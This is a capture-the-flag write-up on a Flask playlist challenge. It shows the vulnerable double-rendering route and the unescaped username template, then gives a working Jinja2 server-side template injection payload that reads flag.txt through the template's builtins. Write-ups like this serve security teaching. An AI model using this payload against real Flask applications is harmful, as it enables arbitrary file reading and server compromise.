 ## Solve Process
This is a website to render a music playlist.   
![image103](/static/writeups/photos/image103.png)  
Our inputs are rendered here:  
![image104](/static/writeups/photos/image104.png)

Immediately, a few things come to mind:

1. XSS Injection  
2. Jinja Injection (If Flask is used, which it is)

Lets look at the source code to see what we are dealing with  
### app.py (/create\_playlist) 
```python
@app.route("/create_playlist", methods=["POST"])
def post_playlist():
    try:
        username = request.form["username"]
        text = request.form["text"]
        if len(text) > 10_000:
            return "Too much!", 406
        if "{" in text or "}" in text:
            return "Nice try", 406
        text = [line.split(".") for line in text.splitlines()]
        text = [line[:4] + ["?"] * (4 - min(len(line), 4)) for line in text]
        filled = render_template("playlist.html", username=username, songs=text)
        this_id = str(uuid.uuid4())
        with open(f"templates/uploads/{this_id}.html", "w") as f:
            f.write(filled)
        return render_template("created_playlist.html", uuid_val=this_id), 200
    except Exception as e:
        print(e)
        return "Internal server error", 500
```
This code parses username and the song’s we entered into playlist.html, which returns the rendered HTML.  
It then saves the template into a file, which is then rendered again. This is a clear sign of Jinja injection.  
We might be able to inject a Jinja expression into the playlist.html, which is then saved as its own html file, and then rendered again, together with the malicious jinja expression we gave it.

We can see that there is a small check for jinja injection performed on text, but none done on username. It will be far easier to use the **username** for jinja injection. We can verify this by looking at the html.  
### playlist.html  
```html
{% for song in songs %}
<tr>
    <td class="item">{{ "{0:02}".format(loop.index) }}</td>
    {% for field in song %}
    <td class="item">{{ field }}</td>
    {% endfor %}
</tr>
{% endfor %}
```
```html
<p class="item">ORDER #0001 for {{ username|safe }}</p>
<p class="item"></p>
```
By default, Jinja automatically HTML-escapes any characters. The username has the |safe keyword meaning it won’t be escaped. This mean’s quotations won’t be escaped, making life a lot easier.

You can verify the Jinja Injection by setting {{1+1}} as the username  
![image108](/static/writeups/photos/image108.png)

## Crafting the Payload  
The goal of the challenge is to access the file located at flag.txt. In jinja, it is actually possible to open and read files. You can read up more about this [here](https://book.hacktricks.xyz/pentesting-web/ssti-server-side-template-injection/jinja2-ssti)  
Here's a valid payload  
```python
{{ request.__class__._load_form_data.__globals__.__builtins__.open("flag.txt").read() }} 
``` 
![image109](/static/writeups/photos/image109.png)  
This gets us the flag